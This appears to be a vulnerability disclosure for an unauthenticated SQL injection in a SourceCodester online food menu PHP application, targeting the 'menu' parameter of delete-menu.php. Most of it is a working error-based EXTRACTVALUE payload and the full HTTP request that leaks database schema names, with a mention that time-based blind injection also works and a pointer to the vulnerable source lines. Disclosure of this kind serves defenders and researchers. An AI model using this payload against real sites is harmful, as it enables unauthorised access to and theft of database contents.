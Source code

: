 # Food Menu CMS - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17096/online-food-menu-using-php-and-mysql-source-code.html

http://localhost/endpoint/delete-menu.php?menu=1   -----> 'menu' can control some menu parameters

Payload:?menu=1' AND EXTRACTVALUE(1,CONCAT(0x5c,0x01,(SELECT MID((IFNULL(CAST(schema_name AS NCHAR),0x20)),1,21) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 3,1),0x00)) AND '1'='1

```r
GET /endpoint/delete-menu.php?menu=1'+AND+EXTRACTVALUE(1,CONCAT(0x5c,0x01,(SELECT+MID((IFNULL(CAST(schema_name+AS+NCHAR),0x20)),1,21)+FROM+INFORMATION_SCHEMA.SCHEMATA+LIMIT+3,1),0x00))+AND+'1'%3d'1 HTTP/1.1
Host: xxxxxxxx
```

![1](/img/1.png)

Running this payload will reveal the name of the database. This indicates that SQL injection vulnerability has been successfully executed in the database, allowing for database querying. Apart from error-based injection, there also exists time-based blind injection vulnerabilities.

![2](/img/2.png)

The parameter "menu" received on line 5 of the delete-menu.php file in the "endpoint" directory of the website is vulnerable to being controlled by guest users, and then it is executed on line 12, causing a SQL injection vulnerability.

![3](/img/3.png)

